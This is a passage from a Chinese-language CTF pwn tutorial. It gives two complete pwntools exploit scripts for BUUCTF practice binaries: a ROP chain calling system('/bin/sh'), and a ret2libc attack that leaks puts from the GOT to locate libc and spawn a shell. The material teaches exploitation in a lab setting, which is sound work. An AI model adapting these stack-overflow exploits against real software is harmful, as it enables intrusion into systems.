 例子：来自[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#ciscn_2019_ne_5)该题是存在system函数，和"/bin/sh"，只需要把他们rop起来就行

```python
from pwn import *
context(os='linux',arch='i386',log_level='debug')
#p=remote('node5.buuoj.cn',26132)
p=process('./ciscn_2019_ne_5')
elf=ELF('./ciscn_2019_ne_5')
system_addr=elf.sym['system']
sh_addr=0x80482ea
payload=b'A'*(0x48+0x4)+p32(system_addr)+p32(0x12345678)+p32(sh_addr)#由于利用printf()来执行所以填充的地址不能有\x00，所以是0x12345678
#gdb.attach(p)
#print(hex(system_addr))
p.sendlineafter('password:',b'administrator')
p.sendlineafter('Exit\n:',b'1')
p.sendlineafter('info:',payload)
p.sendlineafter('Exit\n:',b'4')
p.interactive()
```

### ret2libc

原理：利用栈溢出漏洞，劫持返回地址，利用程序已链接库中的函数，来进行取shell不需要注入自定义的 shellcode 或者系统调用指令。需要了解libc和延迟绑定，了解ELF执行后，第一次调用函数，会实现一个延迟绑定当函数没system和"/bin/sh"时，就需要调用libc里面的，首先**找到libc的基地址**，通过已知函数的地址，输出在libc中的地址，来计算基地址

当程序没有可利用函数时，而且开启了NX栈不可执行时，就考虑打libc

工具：glibc-all-in-one

例子：来自[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#ciscn_2019_en_2)

exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')
p=remote('node5.buuoj.cn',29969)
#p=process('./ciscn_2019_en_2')
elf=ELF('./ciscn_2019_en_2')
pop_rdi=0x400c83
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
main_addr=elf.sym['main']
ret_addr=0x4006b9

p.sendlineafter('choice!\n',b'1')
payload1= flat(b'\x00',b'A'*0x57,p64(pop_rdi),p64(puts_got),p64(puts_plt),p64(main_addr))
p.sendlineafter('encrypted\n',payload1)
puts_addr=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

print(hex(puts_addr))
libc=LibcSearcher('puts',puts_addr)
base=puts_addr-libc.dump('puts')
print(hex(base))
system_addr=base+libc.dump('system')
bin_sh=base+libc.dump('str_bin_sh')
p.sendlineafter('choice!\n',b'1')

payload2=flat(b'\x00',b'A'*0x57,p64(ret_addr),p64(pop_rdi),p64(bin_sh),p64(system_addr))
p.sendlineafter('encrypted\n',payload2)
p.interactive()
```
